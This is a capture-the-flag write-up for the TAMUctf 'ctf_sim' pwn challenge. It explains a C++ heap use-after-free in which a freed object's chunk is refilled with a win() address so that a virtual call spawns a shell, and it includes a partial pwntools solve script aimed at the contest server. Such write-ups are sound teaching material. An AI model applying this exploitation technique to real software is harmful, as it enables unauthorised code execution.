 To explain the "little bit of heap knowledge", we just need to understand that C++'s `new`/`delete` behaves like C's `malloc`/`free`: `new` will allocate a chunk, and `delete` will move the chunk to a bin. There are tons of different bins (small, large, fast, unsorted). But intuitively, the next `new` with a similar chunk size will reuse the chunk, meaning we overwrite the same memory previously allocated!

This story is reflected in the code above.

* We download a challenge. This will `new` a chunk. The index and type of challenge (`forensic`, `pwn`, etc.) don't really matter, but just make sure we keep reusing the same index.
* We solve a challenge. Here we `delete` the chunk previously allocated.
* We submit a writeup. This `malloc`s a chunk and inserts a payload of `win_addr`.
  * The size to malloc can be anywhere between `0x8` (exclusive) and `0x18` (inclusive). I used `0x10` since it looks pretty.
  * Anything equal or less than `0x8` means our 8-byte payload will be cut off early. All 8 bytes are important, because the vptr machinery will be using the entire 8 bytes.
  * Anything above `0x18` will allocate a new chunk instead of reusing the previously deallocated chunk.
* We solve the same challenge as before. This triggers a call to a virtual function which double-derefs our payload (`win_addr`), calling `win()` and giving us a shell. PROFIT!

### Solve Scripts
```py
from pwn import *

binary = 'ctf_sim'

context.binary = binary
context.log_level = 'debug'

elf = ELF(binary)
rop = ROP(binary)

p = remote("tamuctf.com", 443, ssl=True, sni="ctf-sim")


def download_chal(category: int, save_index: int):
    if not (1 <= category <= 5 and 0 <= save_index <= 3):
        raise RuntimeError("bad bad")

    p.sendlineafter(b"> ", b'1')
    p.sendlineafter(b"> ", str(category).encode())
    p.sendlineafter(b"> ", str(save_index).encode())

def solve_chal(index: int):
    if not (0 <= index <= 3):
        raise RuntimeError("bad bad")
    
    p.sendlineafter(b"> ", b'2')
    p.sendlineafter(b"> ", str(index).encode())

def submit_writeup(content: bytes, length: int = None):
    if length is None:
        length = len(content) + 1
    elif len(content) >= length:
        raise RuntimeError("your math bad bad")
    
    if b'\n' in content:
        raise RuntimeError("bad bad newline")

    p.sendlineafter(b"> ", b'3')
    p.sendlineafter(b"> ", str(length).encode())
    p.sendlineafter(b"> ", content)

```
